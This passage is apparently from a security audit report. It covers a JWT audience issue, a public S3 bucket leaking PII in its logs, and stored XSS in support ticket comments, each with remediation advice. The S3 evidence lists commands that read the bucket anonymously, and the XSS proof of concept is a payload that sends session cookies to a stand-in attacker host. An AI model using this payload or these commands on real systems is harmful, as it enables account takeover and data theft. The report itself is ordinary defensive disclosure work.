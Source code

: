 #### Remediation
- Enforce strict audience (`aud`) checking on all token verifiers.
- Consider `azp` (authorized party) validation where applicable.
- Add regression tests covering invalid `aud` values.

#### References
- OWASP: JSON Web Token (JWT) Cheat Sheet

---

### F-002 Public S3 Bucket Exposes Logs with PII (High)

- Affected: `s3://example-prod-logs`
- CWE: 200 Exposure of Sensitive Information

#### Description
S3 bucket permits `s3:GetObject` for anonymous principals. Logs include email addresses and IPs.

#### Evidence
```bash
aws s3 ls s3://example-prod-logs --no-sign-request
aws s3 cp s3://example-prod-logs/2025/10/16/app.log - --no-sign-request | head -n 5
```

#### Impact
Exposure of PII may trigger regulatory reporting (GDPR/CCPA). Data can be used for targeted attacks.

#### Remediation
- Set bucket policy to deny anonymous access.
- Enable Block Public Access at account and bucket levels.
- Rotate any derived secrets found in logs; minimize logging of PII.

---

### F-003 Stored XSS in Support Ticket Comments (Medium)

- Affected: `app.example.com`
- CWE: 79 Improper Neutralization of Input During Web Page Generation

#### Description
User-supplied HTML in comments is persisted and rendered without proper sanitization.

#### Proof of Concept
```html
<img src=x onerror="fetch('https://attacker.tld/'+document.cookie)" />
```

#### Impact
Session hijack, account takeover of staff reviewing tickets.

#### Remediation
- Sanitize user input server-side; encode on output by context.
- Adopt a strict Content Security Policy with nonce-based scripts.
- Add HTTPOnly and SameSite cookies; rotate session secrets.

---